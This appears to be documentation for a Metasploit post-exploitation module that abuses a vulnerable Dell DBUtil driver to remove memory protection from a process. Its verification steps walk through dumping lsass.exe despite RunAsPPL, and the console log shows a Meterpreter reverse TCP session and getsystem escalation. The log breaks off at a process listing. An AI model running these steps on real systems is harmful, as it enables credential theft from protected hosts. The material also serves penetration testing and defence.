 ## Options

### DRIVER_PATH

The path on the RHOST containing the driver inf, cat, and sys (and coinstaller depending on the version). For example,
in the scenarios below, the driver files are uploaded to `C:\Windows\Temp`, so this should be `set DRIVER_PATH C:\\Windows\\Temp`.

### ENABLE_MEM_PROTECT

Enable or disable memory protection on the targetted process. `false` will remove memory protection and `true` will enable it.

### PID

The ID of the targetted process.

## Verification Steps

1. Start msfconsole
1. Get a system Meterpreter session on a host using UEFI or Secure Boot and configured with RunAsPPL.
1. Obtain the pid of lsass.exe: `ps | grep lsass`
1. Background the session
1. Do: `post/windows/gather/memory_dump`
1. Set the `SESSION`, `PID`, and `DUMP_PATH` options.
1. Do: `run`
1. Observe a permission denied error.
1. Return to the previous session: `sessions -i 1`
1. Upload the required driver files: `upload /home/albinolobster/drivers/2_7/ C:\\Windows\\Temp\\`
1. Background the session
1. Do: `use post/windows/manage/dell_memory_protect`
1. Set the `SESSION`, `PID`, and `DRIVER_PATH` (e.g. `C:\\Windows\\Temp`) options.
1. Do: `run`
1. Observe the module exits successfully.
1. Do: `post/windows/gather/memory_dump`
1. Do: `run`
1. Observe the successful memory dump of lsass

## Scenarios

### Windows 11 Build 22000.348 x64 using DBUtilDrv2 version 2.7

```
[*] Started reverse TCP handler on 10.0.0.9:1270 
[*] Meterpreter session 1 opened (10.0.0.9:1270 -> 10.0.0.8:47730 ) at 2021-12-07 12:48:57 -0800

meterpreter > sysinfo
Computer        : BADBLOOD
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: badblood\albinolobster
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > ps | grep lsass
Filtering on 'lsass'
```